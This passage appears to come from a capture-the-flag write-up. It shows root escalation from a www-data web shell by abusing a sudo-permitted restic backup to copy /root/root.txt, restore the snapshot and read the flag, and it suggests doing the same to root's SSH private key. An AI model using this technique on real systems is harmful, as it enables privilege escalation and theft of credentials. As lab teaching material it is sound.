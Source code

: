 ### Last Step: Using www-data shell

```
$ echo 123 >/tmp/r

(123 is my password)

p0wny@shell:/tmp# sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8001/ -p /tmp/r /root/root.txt
/tmp/r /root/root.txt
scan [/root/root.txt]
[0:00] 0 directories, 1 files, 33B
scanned 0 directories, 1 files in 0:00
[0:01] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00

duration: 0:01
snapshot b9d28d7c saved
-------------------------------------------------------
```
### Restoring from the snapshot

```
root@w0lf:/tmp/restic/snapshots# restic -r /tmp/restic/ restore b9d28d7c --target /tmp/restic/
enter password for repository: 
repository 41f82a77 opened successfully, password is correct
created new cache in /root/.cache/restic
restoring <Snapshot b9d28d7c of [/root/root.txt] at 2020-04-04 19:37:22.586614963 +0000 UTC by root@bolt> to /tmp/restic/




root@w0lf:/tmp/restic# cat root.txt 
nt------------------------------gw
root@w0lf:/tmp/restic# 
```

Like this we can take backup of the root's ssh private key and login as root.
